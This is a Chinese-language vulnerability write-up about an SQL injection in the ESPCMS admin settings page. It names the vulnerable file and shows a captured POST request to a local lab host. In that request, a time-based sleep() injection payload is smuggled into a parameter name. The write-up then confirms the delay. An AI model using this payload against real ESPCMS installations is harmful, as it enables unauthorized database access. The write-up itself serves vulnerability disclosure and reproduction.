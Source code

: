 espcmsSQL注入漏洞
https://www.ecisp.cn/html/cn/download_espcms/


phpstudy安装
代码审计
espcms_admin/control/SettingMain.php
在更新网站配置时，key和value的值是直接拼接进去的，因此存在SQL注入漏洞


漏洞复现
安装成功后进入网站后台
点击设置->系统设置->确定保存

并抓包，数据包如下

POST /espcms_admin/index.php?act=FuNYwqPAgpSXj4m5d2npHEownomPfTf6l4%2BJuXdp6Rxja3m%2FkIeu1g%3D%3D HTTP/1.1
Host: 192.168.1.101
Content-Length: 518
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie:espcms_admin_user_info=D30R5LB5F3tzA96zEfkI6K7agHgeLvgeUCjwWtnFKKTTijDU563rtvbF2%2BZPKt2AFV%2FSBefbEwhwz2Y4v8O0d%2BdSQVPrIuV5fe5dP91YUivEt6JhJx2lVtgz01pzBwvJiXfG1EXATRSNiOProF6Mh2%2BJcTXlrQLBPE42ycga1aPOVdHT7xyMJZSrp%2BGetH8CZ7pyHUpFWROqoCt5hHO7xM48Ebz3UEVruMjbJJLUxFFsmWoMFL%2BdMJJlmOFXe%2BPZS5r5Pja02zjNFbgcjakujmffPpqYlJW6HJe0U1xNfGJm6SjW%2BhaseaBLNIfVLDpuTqJPkgKcVePiqoUBqATOVWskGbjhbduHQfNOtLFwurCZa7SxuSlT6UJIDyQr9hM1DgJnDcrZn57WF43ah3ACdbmk4G5o5uK%2BeIkF5IGBgDmNGt0n35hr6qqgK3mEc7vE%2FRhR1PSyNGBSnjg5c6Yd3MY7MGREbfve; 
Connection: close

token_key=&token_name=&config_name=%E5%9F%BA%E6%9C%AC%E5%8F%82%E6%95%B0%E8%AE%BE%E7%BD%AE&SITENAME=123456&WEB_ICON_16=upfile%2Fespcms_16.png&WEB_ICON_32=upfile%2Fespcms_32.png&WEB_ICON_64=upfile%2Fespcms_64.png&IS_CLOSE=0&CLOSE_CONTENT=&ADMINE_MAIL=123%40qq.com&IS_LOG=1&IS_GZIP=1&DEFAULT_LNG=cn&IS_ALONELNG=1&HOME_LNG=cn&IS_HTML=1&IS_REWRITE=0&ENTRANCE_FILE=index&IS_HTMLDIR=1&FILE_HTMLDIR=html%2F&IS_GETCACHE=1&IS_CACHING=1&CACHE_TIME=3600&HTTP_PATHTYPE=1&TIP_SEARCHTIME=30&IS_HTTPS'and/**/(sleep(3))and'1'%3d'1=http

修改请求体中的IS_HTTPS为IS_HTTPS'and/**/(sleep(2))and'1'%3d'1


Sleep()函数成功执行，因此存在SQL注入漏洞
